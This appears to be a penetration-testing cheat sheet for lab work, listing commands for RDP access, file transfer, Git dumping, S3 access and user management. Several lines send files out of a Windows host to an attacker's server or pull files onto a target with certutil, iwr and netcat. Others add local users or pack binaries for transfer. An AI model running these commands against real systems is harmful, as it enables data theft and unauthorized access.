 # 🦩 General

## Connecting to RDP

```shell
# add resolution support
xfreerdp3 /u:user /p:pass /v:<ip> /dynamic-resolution
# add clipboard support
xfreerdp3 /u:user /p:pass /v:<ip> +clipboard
# add a share to easily transfer files
xfreerdp3 /u:user /p:pass /v:<ip> /drive:<name>,<path> 
```

## File Transfers

!!! tip
    Beware of reflected ports!

### HTTP Server

```shell
# simple python server
python -m http.server <port>
# simple python upload-enabled server (optional basic auth)
pip install uploadserver
python -m uploadserver --basic-auth user:pass <port>

# WebDAV server
wsgidav -H 0.0.0.0 -p 80 --auth anonymous -r .

# Apache (copy files to /var/www/html)
sudo systemctl start apache2
```

### SMB Server

```shell
impacket-smbserver -smb2support share $(pwd) 
# win 10+ Compatibility (With Authentication)
impacket-smbserver -smb2support -user test -password test share $(pwd) 
```

### Netcat

```shell
# start a listener (nc|nc.exe)
nc -lvnp <port> > received_file

# send the file
nc <ip> <port> < <file_path>
```

### Downloading files on Windows

```shell
# PowerShell
iwr -uri <uri> -outfile <filename>

# cmd
certutil -urlcache -split -f <uri> <dest>

# copy from smb share
copy \\<ip>\share\<file>

# mount share before copy. (win 10+ w/o Authentication)
net use Z: \\<ip>\share
# mount share before copy. (win 10+ w/ Authentication)
net use Z: \\<ip>\share /u:user 'pass'
```

### Exfiltrating files from Windows

```shell
# send file to python upload-enabled server
Invoke-WebRequest -Uri http://<linux-ip>:<port>/upload -Method Post -InFile C:\path\to\file
curl -F "file=@C:\path\to\file.txt" http://<linux-ip>:<port> -u user:pass

# copy to smb share
copy C:\path\to\file \\<ip>\share
```

### Downloading files on Linux

```shell
# wget and curl
wget http://<ip>:<port>/<file>
curl -O http://<ip>:<port>/<file>
```

## Git

> [git-dumper](https://github.com/arthaud/git-dumper)

```shell
# dump git repo from url
git-dumper <url>/.git ./website

# show commits on a branch
git log
# show commit details and changes
git show <commit>
```

## AWS

!!! warning ""
    Out of scope

Setup credentials if you find access keys

```shell
aws configure
```

### S3

```shell
# list public buckets without credentials
aws s3 ls s3://<bucket>/ --endpoint-url <url> --no-sign-request

# download a bucket
aws s3 cp s3://<bucket> ./

# check bucket policy
aws s3api get-bucket-policy --bucket <bucket> --endpoint-url <url> --no-sign-request

# upload a file to a bucket
aws s3 cp <file> s3://<bucket>/ --endpoint-url <url> --no-sign-request
```

## Windows

### Utils

```shell
# search for a word in a file 
Select-String -Path "sb.txt" -Pattern "password"

# enumerate permissions
icacls "<path>"
Get-ACL "<path>"

# kill a process
taskkill /F /IM chisel.exe
# or by PID
tasklist | findstr chisel.exe
taskkill /PID <PID> /F
```

### User Management

```shell
# enumerate users and groups
net user <user>
net localgroup <group>

# create local user and add it to a group
net user <user> <pass> /add
net localgroup <group> <user> /add

# change local user's password
net user <user> <newpass>
```

## Linux

### Users

```shell
useradd -u <UID> -g <group> <uname>
# switch to user
su - <username>
# without password
sudo su - <username>
# switch to root
su -
sudo su -
```

### Network Connections

```shell
# log incoming traffic on a specific port
sudo tcpdump -nvvvXi tun0 tcp port 8080

# network connections
netstat -antp # check tcp conns on all sockets
ss -ntplu # check tcp and udp listening conns

# kill connection
fuser -k <port>/tcp
fuser -k <port>/udp
kill -9 <PID>
```

### SSH

```shell
# create keys
ssh-keygen -t rsa -b 4096
```

### Misc

```shell
# reduce binary size (useful for binaries that are going to be transferred)
upx <bin_path>
```

## VPN

!!! danger
    Offsec machines and VPN are sometimes unstable.

Reduce MTU if reverse shells are not connecting back.

```shell
ifconfig tun0 mtu 1200
```
